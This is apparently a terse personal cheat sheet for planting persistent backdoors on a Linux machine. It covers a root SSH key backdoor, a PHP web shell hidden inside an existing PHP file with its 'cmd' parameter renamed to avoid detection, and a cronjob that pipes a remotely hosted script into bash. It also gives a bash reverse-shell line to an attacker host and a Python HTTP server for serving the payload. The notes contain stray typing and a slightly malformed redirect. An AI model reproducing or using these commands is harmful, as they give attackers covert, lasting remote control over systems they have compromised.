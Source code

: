 				SSH BackDoor

-- ssh-keygen                                   Generates ssh key
    -- Leave public key                      	 Place '/home/.ssh'
        -- chmod 600 id_rsa               	  Gives permissions
-- ssh -i id_rsa root@ip                    Use BackDoor

				PHP BackDoor

-- Location                                         /var/www/html 
    -- BackDoor script

-- Where to execute script                https://ip/PHP-BackDoor.php
kjhfg
                		Hide script

-- Add in existing PHP File
-- Change the "cmd" parameter, cmd is very obvious

				Cronjob BackDoor
-- crontab -l
-- Add to Cronjob                               * *     * * *   root    curl http://<IP>:8080/shell | bash
    -- Add Script inside Cronjob            #!/bin/bash
								bash -i >& /dev/tcp/ip/port 8080>&1
-- Get Bash shell

-- Host HTTP server                             python3 -m http.server 8080

				Links

-- https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c
